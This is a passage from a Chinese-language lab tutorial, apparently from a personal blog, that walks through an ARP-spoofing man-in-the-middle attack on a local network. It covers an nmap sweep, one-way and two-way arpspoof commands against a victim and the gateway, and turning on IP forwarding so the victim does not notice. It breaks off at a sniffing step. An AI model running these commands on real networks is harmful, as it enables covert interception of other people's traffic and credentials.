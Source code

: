 ```shell
nmap -sP 192.168.1.0/24
```

![image-20210925195305365](https://raw.githubusercontent.com/Coming98/pictures/main/image-20210925195305365.png)



## 4 开始攻击

使用 arpspoof 命令开始 ARP 欺骗

```shell
# arpspoof -i eth0 -t 目标ip 主机ip（路由器）
arpspoof -i eth0 -t 192.168.1.109 192.168.1.1 # 将 109 发往 网关的包监听拦截
```

此时查看用户 B 的网络状态，发现已经无法上网：查看 B 的 ARP 缓存信息，可见 A 成功欺骗了 B，改写了网关 MAC 为 A 自己：

![image-20210925200125750](https://raw.githubusercontent.com/Coming98/pictures/main/image-20210925200125750.png)

查看路由器 C 的 ARP 缓存信息，并没有发现对 B MAC 的更改：是因为我们值攻击并监听了 192.168.1.109 -> 192.168.1.1 这一条信道，其实这已然可以实现我们想要的功能，只是很容易被 B 发现

![image-20210925202212149](https://raw.githubusercontent.com/Coming98/pictures/main/image-20210925202212149.png)

如果要双向监听，则在新开一个命令行窗口执行下方命令即可：

```shell
arpspoof -i eth0 -t 192.168.1.1 192.168.1.109
```

再次查看，发现路由器也被欺骗啦

![image-20210925202228390](https://raw.githubusercontent.com/Coming98/pictures/main/image-20210925202228390.png)

## 5 流量转发

因为 Linux 中默认禁止流量转发功能，因此 arpspoof 拦截了流量，客户机会立刻发现无法上网，为了更加隐蔽，需要开启流量转发功能

> 流量转发功能：当主机拥有多于一块的网卡时，其中一块收到数据包，根据数据包的目的 ip 地址将包发往本机另一网卡，也就是我们监听拦截到数据报后，看一眼，然后 copy 一份，以另一个网卡发给目的地址

执行下方命令，开启流量转发，再次开启 ARP 双向欺骗后，这时 User B 是正常上网状态：

```shell
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

<img src="https://raw.githubusercontent.com/Coming98/pictures/main/image-20210925203541401.png" alt="image-20210925203541401" style="zoom:50%;" />

<img src="https://raw.githubusercontent.com/Coming98/pictures/main/image-20210925203527816.png" alt="image-20210925203527816" style="zoom:50%;" />

## 6 流量嗅探

我们拦截了请求与响应包，应当得查看一眼里面有没有什么重要信息吧~
